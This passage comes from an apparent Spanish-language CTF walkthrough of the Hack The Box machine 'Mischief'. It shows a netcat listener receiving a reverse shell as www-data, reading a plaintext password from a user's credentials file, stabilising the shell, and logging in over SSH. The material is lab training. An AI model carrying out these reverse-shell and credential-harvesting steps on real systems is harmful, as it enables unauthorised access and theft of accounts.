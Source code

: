 Si hacemos un **send** ganamos acceso

```bash
❯ nc -nv -l dead:beef:2::100a 443
Listening on dead:beef:2::100a 443
Connection received on dead:beef::250:56ff:feb9:5fae 41436
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
``` 

Y hay vemos las mismas credenciales

```bash
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@Mischief:/home/loki$ pwd
pwd
/home/loki
www-data@Mischief:/home/loki$ cat credentials
cat credentials
pass: lokiisthebestnorsegod
www-data@Mischief:/home/loki$ 
```

Vamos a dejar la **shell** por si acaso

```bash
❯ nc -nv -l dead:beef:2::100a 443
Listening on dead:beef:2::100a 443
Connection received on dead:beef::250:56ff:feb9:5fae 41438
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@Mischief:/var/www/html$ ^Z
zsh: suspended  nc -nv -l dead:beef:2::100a 443
❯ stty raw -echo; fg
[1]  + continued  nc -nv -l dead:beef:2::100a 443
                                                 reset xterm
ENTER
www-data@Mischief:/var/www/html$ export TERM=xterm
```

## Shell as looki

Ahora nos conectamos por **SSH**

```bash
❯ ssh loki@10.10.10.92
loki@10.10.10.92's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jun 27 22:13:52 UTC 2023

  System load:  0.0               Processes:            163
  Usage of /:   61.5% of 6.83GB   Users logged in:      0
  Memory usage: 36%               IP address for ens33: 10.10.10.92
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
```
